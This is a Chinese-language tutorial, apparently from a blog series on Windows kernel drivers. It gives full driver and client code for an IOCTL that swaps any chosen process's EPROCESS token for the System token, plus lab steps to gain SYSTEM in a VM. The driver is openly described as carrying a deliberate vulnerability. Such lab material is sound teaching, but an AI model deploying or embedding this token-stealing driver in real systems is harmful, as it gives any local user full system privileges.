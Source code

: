 # 【第 06 話】IOCTL 與驅動程式溝通－實作竄改 EPROCESS TOKEN

## 文章大綱
我們在[【第 05 話】傳送 IRP 到驅動程式](/asset/第%2005%20話)從應用程式傳送 IRP 到驅動程式，並在 Kernel 處理接收到的 IRP。這篇會以此為基礎，繼續多加 IOCTL 功能。從應用層傳送資料到 Kernel，並且在 Kernel 層提權。

實作的內容延續[【第 04 話】用 WinDbg 竄改 EPROCESS Token](/asset/第%2004%20話)，之前是用 WinDbg 竄改 EPROCESS Token，這篇則是要將這個步驟寫程式自動化。


## IOCTL
Windows 的 [IOCTL（Device Input and Output Control）](https://learn.microsoft.com/en-us/windows/win32/devio/device-input-and-output-control-ioctl-) 機制讓應用程式可以向驅動程式發送請求，執行特定的操作，例如讀取或寫入記憶體、設定參數或取得狀態資訊等等。

IOCTL 針對 [IRP_MJ_DEVICE_CONTROL](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/kernel/irp-mj-device-control)，提供一個介面讓作業系統與驅動程式溝通。下圖右下方可以看到開發者可以呼叫 [DeviceIoControl](https://learn.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol) 將資料傳入驅動程式。

![](ioctl.png)

參考 `DeviceIoControl` 的函數原型，開發者能夠傳入 IoControlCode（`dwIoControlCode`）、InputBuffer （`lpInBuffer`）、InputBufferLength （`nInBufferSize`）、OutputBuffer（`lpOutBuffer`）、OutputBufferLength（`nOutBufferSize`）。其中 IoControlCode 是開發者可以自己定義的，而在驅動程式中根據 IoControlCode 來決定要執行什麼功能。另外四個則代表輸入、輸入長度、輸出、輸出長度。
```c
BOOL DeviceIoControl(
  [in]                HANDLE       hDevice,
  [in]                DWORD        dwIoControlCode,
  [in, optional]      LPVOID       lpInBuffer,
  [in]                DWORD        nInBufferSize,
  [out, optional]     LPVOID       lpOutBuffer,
  [in]                DWORD        nOutBufferSize,
  [out, optional]     LPDWORD      lpBytesReturned,
  [in, out, optional] LPOVERLAPPED lpOverlapped
);
```

## 建立 Device 
跟[【第 05 話】傳送 IRP 到驅動程式](/asset/第%2005%20話)相比，我們只要多處理在接收到 `IRP_MJ_DEVICE_CONTROL` 時根據 IoControlCode 做對應的行為。

![](IRP_MJ_DEVICE_CONTROL.png)

## 寫程式
程式會分為兩個部分，一個是驅動程式、一個是應用程式。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/AbuseEprocessToken)。

注意這個程式只是個學習範例，除了沒有做錯誤處理外，程式本身其實有漏洞，這部份會在之後的文章提及。

### 驅動程式
首先在 `DriverEntry` 定義好卸載函數、建立 Device、定義各 IRP 的處理函數，以及設定 `IRP_MJ_DEVICE_CONTROL` 的處理函數。
```c
extern NTSTATUS DriverEntry(PDRIVER_OBJECT driverObject, PUNICODE_STRING registryPath)
{
    UNREFERENCED_PARAMETER(registryPath);
    NTSTATUS status = STATUS_SUCCESS;

    // 要設定卸載函數驅動程式才能順利卸載
    driverObject->DriverUnload = DriverUnload;

    // 建立 Device 與對應的 Symbolic Link
    status = CreateDevice(driverObject);

    // 為需要用到的 IRP 定義處理函數
    driverObject->MajorFunction[IRP_MJ_CREATE] = Dispatcher;
    driverObject->MajorFunction[IRP_MJ_CLOSE] = Dispatcher;
    driverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = Dispatcher;

    return STATUS_SUCCESS;
}
```

在 IRP 的處理函數中，我們根據取得的 IRP 執行不同行為。如果是 `IRP_MJ_DEVICE_CONTROL`，則根據取得的 IoControlCode 做我們實作的功能，以這個範例來說就是竄改從應用程式傳來的 pid 的 EPROCESS Token 成 System 的 EPROCESS Token。
```c
#define ABUSE_EPROCESS_TOKEN CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

NTSTATUS Dispatcher(PDEVICE_OBJECT pDeviceObject, PIRP pIrp)
{
    ULONG inputBufferLength = 0;
    ULONG outputBufferLength = 0;
    ULONG ioControlCode = 0;
    PEPROCESS pEprocess = NULL;
    PIO_STACK_LOCATION ioStackLocation = IoGetCurrentIrpStackLocation(pIrp);
    if (pDeviceObject != pDevice)
    {
        return STATUS_UNSUCCESSFUL;
    }

    // 根據 IRP 做對應的處理
    switch (ioStackLocation->MajorFunction)
    {
        case IRP_MJ_DEVICE_CONTROL:
            // 取得從應用程式傳來的資料
            inputBufferLength = ioStackLocation->Parameters.DeviceIoControl.InputBufferLength;
            outputBufferLength = ioStackLocation->Parameters.DeviceIoControl.OutputBufferLength;
            ioControlCode = ioStackLocation->Parameters.DeviceIoControl.IoControlCode;
            HANDLE processId = *(HANDLE *)pIrp->AssociatedIrp.SystemBuffer;

            // 根據 IoControlCode 做對應處理
            switch (ioControlCode)
            {
                case ABUSE_EPROCESS_TOKEN:
                    // 取得 System (pid 4) 的 EPROCESS Token
                    PsLookupProcessByProcessId((HANDLE)4, &pEprocess);
                    DWORD64 systemToken = *(DWORD64 *)((DWORD64)pEprocess + 0x358);

                    // 把從應用程式傳來的 pid 的 EPROCESS Token 竄改成 System 的 EPROCESS Token
                    PsLookupProcessByProcessId(processId, &pEprocess);
                    *(DWORD64 *)((DWORD64)pEprocess + 0x358) = systemToken;
                    break;
                default:
                    break;
            }
            break;
        default:
            break;
    }

    pIrp->IoStatus.Status = STATUS_SUCCESS;
    pIrp->IoStatus.Information = outputBufferLength;
    IoCompleteRequest(pIrp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}
```

### 應用程式
至於從應用層就是呼叫 `CreateFile` 取得 Device 的 Handle，然後呼叫 `DeviceIoControl` 將資料傳入驅動程式，也就是要竄改的目標 pid 的 EPROCESS Token 達到提權。
```c
#define SymLinkName L"\\\\.\\AbuseEprocessToken"
#define ABUSE_EPROCESS_TOKEN CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        std::cout << "CreateFile error: " << GetLastError() << std::endl;
        return 1;
    }

    DWORD dwWrite;
    DWORD ProcessId;
    std::cout << "Give me a pid: ";
    std::cin >> ProcessId;
    
    // 呼叫 DeviceIoControl 將資料傳入驅動程式，也就是要竄改的目標 pid 的 EPROCESS Token
    DeviceIoControl(hDevice, ABUSE_EPROCESS_TOKEN, &ProcessId, sizeof(ProcessId), NULL, 0, &dwWrite, NULL);
    
    CloseHandle(hDevice);

    return 0;
}
```


## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 開啟一個 cmd，再開啟 [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) 中的 procexp64.exe 確認 cmd 的 pid
2. 載入 [AbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessTokenDrv.sys)
3. 執行 [AbuseEprocessToken.exe](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessToken.exe)，並輸入 cmd 的 pid，成功執行後輸入 `whoami` 會發現權限已經變成 `system` 了


## 參考資料
- [IRP](https://steward-fu.github.io/website/driver/wdm/cpp_ioctl.htm)
- [Writing a Windows Driver Model Driver: A Step-by-Step Guide](https://www.apriorit.com/dev-blog/791-driver-windows-driver-model)